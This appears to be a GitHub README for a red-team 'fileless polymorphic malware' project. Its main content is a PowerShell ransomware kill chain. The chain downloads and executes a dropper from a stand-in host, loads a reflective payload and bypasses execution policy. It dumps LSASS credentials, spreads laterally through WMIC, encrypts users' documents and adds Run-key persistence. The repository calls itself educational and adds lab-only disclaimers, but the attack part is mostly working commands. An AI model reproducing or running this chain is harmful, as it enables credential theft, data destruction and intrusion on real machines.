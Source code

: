 
# NSFW: Fileless Polymorphic Hybrid Malware & LOLBins Research

**Repository:** `P1rat3R00t/NSFW`  
**Purpose:** This project is dedicated to cybersecurity research on advanced fileless malware and Living-Off-the-Land Binaries (LOLBins), exploring their use in stealthy post-exploitation and ransomware simulations in a controlled lab environment.

---

## 📸 Demonstration Snapshot

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Summary: What Is NSFW?

NSFW (Not Safe For Workstation) is a red-team-focused framework for studying:

- **Fileless malware**, which operates solely in memory to bypass traditional AV/EDR.
- **Polymorphic behavior**, making detection more difficult via mutation at runtime.
- **LOLBins (Living Off the Land Binaries)**, trusted system binaries leveraged for offensive operations without dropping executables on disk.

This toolkit helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

## ⚖️ Legal & Ethical Advisory

> 📢 **Important Notice:**
> This repository is for **educational and research purposes only**.
> You are responsible for complying with all local, national, and international laws when using any code or technique from this project.
>
> * Do **not** use NSFW for malicious activity.
> * Do **not** deploy in any production or unauthorized environment.
> * Use in **air-gapped**, **isolated**, and **sandboxed labs** only.
>
> **Violations of law or professional ethics are your liability.**



